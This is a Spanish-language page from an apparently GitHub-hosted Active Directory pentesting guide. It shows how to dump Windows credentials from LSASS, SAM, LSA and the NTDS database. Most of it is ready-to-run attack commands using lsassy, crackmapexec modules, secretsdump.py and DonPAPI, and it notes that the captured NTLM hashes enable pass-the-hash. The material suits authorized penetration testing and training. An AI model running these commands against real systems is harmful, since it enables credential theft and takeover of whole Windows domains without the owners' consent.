 # LSASS

Las credenciales que se almacenan en este proceso habitualmente son aquellas que tienen una sesion actualmente en el equipo. Se obtientienen en formato NTLM, por lo que es posible usar el NT para hacer Pass-th-hash.

```Bash
# Lsassy
lsassy -v -u <user> -p '<pass>' -m rdrleakdiag --dump-name test.log <Target IP>
# o
cme smb <Target IP> -u <user> -p '<pass>' -M lsassy
# Procdump
cme smb <Target IP> -u <user> -p '<pass>' -M procdump
# Handlekatz
cme smb <Target IP> -u <user> -p '<pass>' -M handlekatz
# Nanodump
cme smb <Target IP> -u <user> -p '<pass>' -M nanodump
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img1.png?raw=true "lsassy 1")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img2.png?raw=true "lsassy 2")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img3.png?raw=true "Procdump")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img4.png?raw=true "Handlekatz")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img5.png?raw=true "Nanodump")


# SAM

Las credenciales que se almacenan en este componente son las locales del sistema. Se obtientienen en formato NTLM, por lo que es posible usar el NT para hacer Pass-th-hash.

```Bash
# Crackmapexec
cme smb <Target IP> -u <user> -p '<pass>' --sam
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img6.png?raw=true "SAM")

# LSA

Las credenciales que se almacenan en este componente son aquellas que se encuentran en cache. Por lo general cifradas, pero alguna vez en claro.

```Bash
# Crackmapexec
cme smb <Target IP> -u <user> -p '<pass>' --lsa
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img7.png?raw=true "LSA")

# NTDS

Esta BBDD del AD solo se encuentra en los DC y es donde se almacenan todas las credenciales del dominio. Se obtientienen en formato NTLM, por lo que es posible usar el NT para hacer Pass-th-hash.

```Bash
# Crackmapexec
cme smb <Target IP> -u <user> -p '<pass>' --ntds
# o
cme smb <Target IP> -u <user> -p '<pass>' -M ntdsutil
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img8.png?raw=true "NTDS")


# MULTIPLES CREDS

```Bash
# Secretsdump - SAM/LSA/NTDS
secretsdump.py <Dominio>/<user>:'<pass>'@<Target IP>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img9.png?raw=true "Secretsdump")

```Bash
# DonPAPI - Windows creds/Vaults/RDP/certificates/AdConnect/Internet explorer/Chrome/Firefox/VNC/mRemoteNG passwords
DonPAPI <Dominio>/<user>:'<pass>'@<Target IP>
# Es posible sacar un reporte en html ejecutando el comando donde se encuentre la BBDD
DonPAPI -R
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/img10.png?raw=true "DoPAPI")